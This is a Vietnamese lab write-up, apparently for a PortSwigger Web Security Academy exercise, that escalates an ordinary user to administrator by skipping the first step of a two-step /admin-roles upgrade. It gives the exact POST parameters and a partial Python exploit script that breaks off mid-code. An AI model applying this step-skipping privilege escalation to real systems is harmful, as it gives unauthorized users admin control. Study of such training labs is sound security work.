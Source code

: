 Upgrade người dùng carlos:</li>

![image](https://hackmd.io/_uploads/HJNoI06Kp.png)

Xác nhận upgrade:

![image](https://hackmd.io/_uploads/SJ03UCpFp.png)

tương tự bài trước

đường dẫn /admin-roles hai tham số username=carlos&action=upgrade qua phương thức POST gồm tên người dùng và thao tác upgrade:

Tiếp theo, xác nhận thao tác upgrade, thêm tham số confirmed=true:

### Khai thác

<li>Mở một trình duyệt ẩn danh mới, đăng nhập với tài khoản wiener:peter. Với các thông tin đã có, chúng ta có thể sử dụng tài khoản wiener gửi tham số username=wiener&action=upgrade tới đường dẫn /admin-roles bằng phương thức POST thử chức năng upgrade có hoạt động với người dùng thường không?</li>

![image](https://hackmd.io/_uploads/SyjmiRatT.png)

Tuy nhiên, nhận được thông báo "Unauthorized". Chúng ta biết rằng chức năng thay đổi vai trò người dùng hoạt động trong hai bước. Bởi vậy, thử bỏ qua bước thứ nhất (hệ thống khả năng thực hiện xác thực người dùng tại bước này), trực tiếp gửi các tham số action=upgrade&confirmed=true&username=wiener bằng phương thức POST tới /admin-roles:

![image](https://hackmd.io/_uploads/SyrYsCptp.png)

Status code trả về 302 Found. Tức là chúng ta đã upgrade người dùng wiener lên vai trò quản trị viên thành công!

mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0a0500900410b78e88cf74a4007200f1.web-security-academy.net'

data = {
    'username': 'wiener',
    'password': 'peter'
}

response = requests.post(
    url + '/login',
    data=data,
    verify=False,
    allow_redirects=False
)

session = response.headers['set-cookie'].split(';')[0].split('=')[1]

# Change role

cookies = {
    'session': session,
}

data = {
```